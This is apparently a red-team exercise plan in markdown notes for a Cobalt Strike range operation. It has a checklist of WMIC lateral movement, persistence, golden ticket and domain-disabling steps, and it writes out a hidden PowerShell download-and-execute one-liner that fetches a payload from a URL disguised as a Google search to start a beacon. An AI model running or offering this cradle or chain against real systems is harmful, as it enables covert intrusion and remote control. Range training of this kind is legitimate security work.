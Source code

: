 ### XXX-SHRPT
- [ ] [[Plan#Lateral Move (wmic)| WMIC]]
- [ ] [[Plan#Persistence SHRPT|Persistence]]
- [ ] [[Plan#Exploiting Unconstrained Delegation|Unconstrained Delegation]]
- [ ] [[Plan#Golden Ticket|Golden Ticket]]

### Domain
- [ ] [[Plan#Domain Persistence|Domain Persistence]]
- [ ] [[Plan#Effect - Disable the Domain|Disable the Domain]]

--------

<h1><center> VPN-USER </center></h1>

## Start initial beacon

Go to powershell and paste the scripted web delivery payload that you already setup.

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://www.google.com.ve:80/search&q=nightmares'))"
```
>[!info] /search&q=nightmares payload setup
>[[Vulnerability and Range Setup#URI for initial Access (google.com.ve/search&q=nightmares)]]


>[!warning]- Troubleshooting
> If this isn't found, double check that the attack is still hosted.
> In CS, to `Site Management` --> `Manage`
> This should pop up the `Sites` tab.
> ![[attachments/Plan_image_1_20231011013207.png]]
> Your payload should be there, if not [[Vulnerability and Range Setup#Scripted web delivery|go here]]
> If it is setup, then check the routes and dns by using `ping www.google.com.ve` from PAO/MDA-VPN-User

- On our Kali Box we should receive a callback.
![[attachments/Plan_image_2_20231011013207.png]]
- Double-Click the beacon to interact

- use `ctrl + r` or the cna in order to rename it to `initial access`. I recommend changing the color as well. I chose green.

>[!info]- Organizing beacons
>Now is a good time to start organizing your beacons. This habit not only helps you to know what is going on in range, but it will help other operators if they need to take over.
>>[!info]- Add note
>>You can add notes with `note <note>` 
>>![[attachments/Plan_image_3_20231011013207.png]]
>
>>[!info]- Change color
>>You can change the color by right-clicking the beacon `Session` --> `Color`
>>![[attachments/Plan_image_4_20231011013207.png]]
>>This will add a colored square in the tab that spawns with that beacon.
>>![](./attachments/Plan_image_5_20231011013207.png)
>
>>[!info]- Rename
>>You can rename any tab with `ctrl +r`, but this only survives until you close the tab
>>If you [[Vulnerability and Range Setup#Setup CS Client|loaded the optional cna script]], you can use `cbm <name>` to rename the beacon. 

